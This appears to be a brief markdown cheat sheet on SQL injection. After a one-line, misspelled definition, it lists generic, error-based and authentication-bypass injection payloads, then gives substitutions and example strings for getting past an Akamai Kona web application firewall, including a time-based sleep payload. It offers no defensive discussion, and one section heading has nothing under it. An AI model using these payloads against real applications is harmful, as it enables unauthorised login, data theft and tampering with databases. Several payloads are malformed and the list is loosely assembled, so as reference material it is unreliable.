     # SQL Injection

SQLi is a security weakness which allows attackers to control and applications database and allowing them to,
for instance modify data or change the database applications behaviour by tricking the database into allowing 
sending SQL commands.
Some I like to give a crack are;
    
    # Generic SQL Injection Payloads

- ' or '
- OR "" = "
- '=0--+
- 'LIKE'
- - ' AND id IS NULL; --
- '''''''''''''UNION SELECT '2


        # Generic Error Based Payloads

- OR 1=1
- OR 1=1-- 
- OR 3409=3409 AND ('pytW' LIKE 'pytW
- %' AND 8310=8310 AND '%'='
- AND 1=1 AND '%'='


        # Authentication Based Payloads

- admin') or ('1'='1'--
- or true--
- admin') or ('1'='1'#
- ' or ''&'
- admin') or ('1'='1'/
 
 
        # Ordre and Union based palloads


        # Akamai Kona Bypass

MID instead of SUBSTRING
LIKE instead of =
/**/ instead of a space
CURRENT_USER instead of CURRENT_USER()
" instead of '

$_Example

_444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#
       
_OR/**/3409LIKE3409/**/AND/**/("pytW"/**/LIKE/**/"pytW

_test' or us.username like '%' and sleep(42_='1


_AND 1=1 AND '%'='
=




